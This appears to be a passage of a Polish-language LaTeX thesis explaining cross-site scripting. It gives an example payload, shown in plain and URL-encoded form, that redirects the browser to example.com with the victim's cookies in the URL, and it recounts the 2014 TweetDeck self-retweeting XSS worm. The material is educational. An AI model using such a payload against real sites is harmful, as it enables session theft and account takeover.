 \documentclass[11pt,a4paper,polish,thesis,oneside]{dcsbook}
\begin{document}
Przekazanie kodu \ref {xss2} w postaci parametru \textit{name} spowoduje wykonanie tego kodu po stronie przeglądarki. Efektem wywołania będzie przekierowanie użytkownika na adres internetowy z przekazaną zawartością ciasteczka w adresie URL.

\begin{lstlisting}[language=php,frame=single,caption=przykład wykorzystania podatności XSS,label=xss2,numbers=left]
<script>document.location="http://example.com/?c="+document.cookie;</script>

%3Cscript%3Edocument.location%3D%22http%3A%2F%2Fexample.com%2F%3Fc%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E (wersja zakodowana)
\end{lstlisting}

W 2014 roku odkryto podatność aplikacji TweetDeck \cite{tweetdeck} (działającej jako rozszerzenie do przeglądarki Google Chrome), która oferowała interakcję z popularnym serwisem społecznościowym Twitter. Podatność polegała na renderowaniu treści tweeta z wykorzystaniem silnika interpretującego JavaScript i bez zamiany danych pobranych z API na encje.

\begin{figure}[h]
\centering
\includegraphics[scale=0.75]{tweetdeck}
\label{tweetdeckpng}
\caption{tweet wykorzystujący podatność XSS w TweetDeck}
\end{figure}

Użytkownik \textit{@derGeruhn} zamieścił na swoim profilu wpis, który wykorzystywał odnalezioną podatność. Wyświetlony w aplikacji TweetDeck zawierał tylko emotikonę serca, a poprzedzający ją kod został wykonany z uprawnieniami ofiary. Zamieszczony kod powodował rozpowszechnienie wpisu przez skopiowanie go na profil ofiary (\textit{ang. retweet}). Próba usunięcia wpisu kończyła się pojawieniem się komunikatu ,,XSS in Tweetdeck''.
\end{document}
